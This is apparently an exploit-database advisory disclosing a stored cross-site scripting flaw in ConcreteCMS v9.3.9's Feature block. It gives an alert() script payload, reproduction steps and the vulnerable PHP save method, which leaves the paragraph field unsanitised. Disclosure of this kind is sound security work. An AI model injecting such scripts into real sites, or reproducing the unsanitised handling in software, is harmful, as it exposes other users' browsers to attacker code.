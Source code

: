 # Exploit Title: Concretecms v9.3.9 - Cross-Site Scripting (XSS)
## Date: 3/13/2025
## Vendor Homepage: https://github.com/concretecms/concretecms
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Concretecms
## Version: v9.3.9
## Exploit Description:
## ConcreteCMS v9.3.9 suffers from a Stored Cross-Site Scripting (XSS) vulnerability in the Paragraph Source field when adding a Feature block. This vulnerability allows attackers to cheat other users by injecting malicious scripts into web pages viewed by other users.

## ---------------------------------POC-----------------------------

```
<script>alert('Source');</script>
```

1. Use administrator login
2. Click "add content to the page" in the top navigation.
3. Select the Feature block , drag and drop it to the page.
4. Add <script>alert('Source');</script> to the Paragraph Source field and then click ADD,the xss vulnerability appears.

Potentially problematic source code:
```php
public function save($args)
    {
        switch (isset($args['linkType']) ? intval($args['linkType']) : 0) {
            case 1:
                $args['externalLink'] = '';
                break;
            case 2:
                $args['internalLinkCID'] = 0;
                break;
            default:
                $args['externalLink'] = '';
                $args['internalLinkCID'] = 0;
                break;
        }
        $args['paragraph'] = isset($args['paragraph']) ? LinkAbstractor::translateTo($args['paragraph']) : '';
        /** @var SanitizeService $security */
        $security = $this->app->make('helper/security');
        $args['icon'] = isset($args['icon']) ? $security->sanitizeString($args['icon']) : '';
        $args['title'] = isset($args['title']) ? $security->sanitizeString($args['title']) : '';
        $args['titleFormat'] = isset($args['titleFormat']) ? $security->sanitizeString($args['titleFormat']) : '';
        $args['internalLinkCID'] = isset($args['internalLinkCID']) ? $security->sanitizeInt($args['internalLinkCID']) : 0;
        $args['externalLink'] = isset($args['externalLink']) ? $security->sanitizeURL($args['externalLink']) : '';
        unset($args['linkType']);

        $args = $args + [
            'fID' => 0,
        ];
        $args['fID'] = $args['fID'] != '' ? $args['fID'] : 0;
        parent::save($args);
    }
```